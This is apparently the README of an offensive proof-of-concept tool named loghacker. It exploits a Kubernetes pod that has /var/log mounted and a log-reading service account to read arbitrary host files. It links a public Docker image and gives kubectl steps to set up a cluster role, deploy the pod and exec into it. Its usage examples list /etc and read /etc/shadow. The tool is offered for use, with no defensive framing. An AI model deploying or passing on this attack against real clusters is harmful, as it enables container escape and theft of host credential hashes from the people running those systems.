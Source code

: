 # mount-var-log-hacker

If /var/mount is mounted into a container, and the serviceaccount in the container has permission to read logs, the application in the container can read any file on the host.

binary name: loghacker

public build image : https://hub.docker.com/r/shadowstar884/loghacker

deploy steps:
```bash
# step 1: create ns and cluster role
kubectl apply -f hack/cluster-role.yaml

# step 2: deploy loghacker
kubectl apply -f hack/deploy-loghacker.yaml

# step 3: attach log-hacker
kubectl exec -it -n mount-log log-hacker -- bash

# step 4: 
./loghacker

# happy loghackerrrrrr

# ./loghacker ls /etc
# ./loghacker cat /etc/shadow

```